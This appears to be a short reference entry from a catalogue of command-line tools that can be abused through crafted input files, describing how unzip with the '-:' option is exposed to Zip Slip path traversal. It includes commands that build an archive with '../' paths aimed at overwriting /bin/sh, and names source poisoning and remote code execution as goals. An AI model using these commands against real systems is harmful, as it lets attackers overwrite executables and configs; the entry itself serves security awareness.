 ```yaml
---
title: unzip
tags:
- cli
- input-file
references: https://linux.die.net/man/1/unzip
files: ['*.zip']
---
```


`unzip` is a widely used archiver. 

## Zip Slip

If `unzip` uses `-:`, it is vulnerable to [Zip Slip](https://security.snyk.io/research/zip-slip-vulnerability), where a malicious archive can overwrite files in any parent directories. It can be used to:
  - Poison the source code
  - Replace an executable or a config file which can lead to RCE
To create a malicious archive:
```sh
zip zipslip.zip ../../../../../../bin/sh
```

To poison:
```sh
zip -: zipslip.zip
```
